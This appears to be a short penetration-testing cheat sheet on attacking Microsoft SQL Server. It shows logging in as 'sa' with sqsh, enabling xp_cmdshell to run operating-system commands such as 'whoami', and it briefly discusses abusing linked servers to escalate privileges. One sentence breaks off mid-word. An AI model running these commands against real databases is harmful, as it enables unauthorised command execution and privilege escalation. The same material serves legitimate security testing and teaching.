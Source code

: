 # MS-SQL Databases

## Connecting to the Database

```
sqsh -S 192.168.0.6  -U sa
```

## xp\_cmdshell

Because it wasn't seen as malicious, te

```sql
1> exec sp_configure 'show advanced options', 1 
2> go 
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install. 
(return status = 0) 
1> reconfigure 
2> go 
1> exec sp_configure 'xp_cmdshell', 1 
2> go 
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install. 
(return status = 0) 
1> reconfigure 
2> go
```

```sql
1> exec master..xp_cmdshell 'whoami' 
2> go
```

## Server Links

The best reference for exploiting server links is [SQL Server – Link… Link… Link… and Shell: How to Hack Database Links in SQL Server!](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/).  They're not hard to pull off and can allow you to escalate your permissions quite easily.  However, do note that you should absolutely use rpc\_out if it's enabled.  

Since OpenQuery can only satisfy user queries, stored procedures or user creation is not possible and makes your escalation path much more difficult.

